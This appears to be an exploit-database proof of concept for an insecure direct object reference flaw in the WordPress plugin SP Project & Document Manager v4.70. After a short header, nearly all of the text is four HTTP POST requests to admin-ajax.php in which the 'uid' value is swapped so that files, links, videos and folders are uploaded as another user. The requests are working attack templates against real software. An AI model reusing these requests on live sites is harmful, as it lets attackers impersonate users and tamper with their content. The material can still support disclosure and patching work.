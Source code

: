 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to pretend to be another user to upload files/add link/add video/add sub folder in folder(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

Cookie: ...; pid=1
Connection: close

------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="file[]"; filename="IMG_0628.PNG"
Content-Type: image/png

...

------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="action"

sp_file_upload_callback
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="uid"

2(CHANGE HERE)
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
...

```
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

pid=2&action=sp_cdm_link_save_embed&uid=2(CHANGE HERE)&link-name=link1&link-url=http%3A%2F%2Flocalhost%3A8020%2Flink1&dlg-upload-notes=aaa
```
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

pid=2&action=sp_cdm_media_save_embed&uid=3(CHANGE HERE)&file-name=video2&embed=22222&dlg-upload-notes=bbb
```
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...
Cookie: ...; pid=2

action=cdm_save_category&name=folder22&uid=3(CHANGE HERE)&parent=2
```
